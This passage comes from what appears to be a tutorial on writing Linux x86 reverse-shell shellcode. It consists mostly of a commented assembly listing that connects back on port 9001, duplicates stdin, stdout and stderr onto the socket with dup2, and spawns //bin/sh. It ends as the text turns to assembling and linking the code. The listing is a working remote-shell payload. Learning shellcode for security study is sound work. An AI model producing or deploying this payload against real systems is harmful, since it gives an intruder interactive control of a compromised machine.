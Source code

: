 ```
    push ecx
    push word 0x2923                  ; port 9001
    push word 0x2                     ; AF_INET
    mov ecx, esp                      ; set the 2nd param to equal a pointer to our struct

    xor edx, edx
    mov dl, 16                        ; size of struct
    int 0x80

    ; syscall dup2 - 3 times 63 (0x3f)
    ; int dup2(int oldfd, int newfd);
    xor eax, eax
    mov al, 0x3f
    mov ebx, edi
    xor ecx, ecx
    int 0x80                          ; first call with 0

    xor eax, eax
    mov al, 0x3f
    mov ebx, edi
    mov cl, 0x1
    int 0x80                          ; second call with 1

    xor eax, eax
    mov al, 0x3f
    mov ebx, edi
    mov cl, 0x2
    int 0x80                          ; third call with 2

    ; syscall execve 11 (0xb)
    xor eax, eax
    push eax

    ; push //bin/sh and point at stack for 1st
    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp

    push eax
    mov ecx, esp

    push eax
    mov edx, esp

    xor eax, eax
    mov al, 0xb
    int 0x80
```

Now the reverse shell script is complete, we want to make sure we can assemble and link it without any errors. This is done with the following:
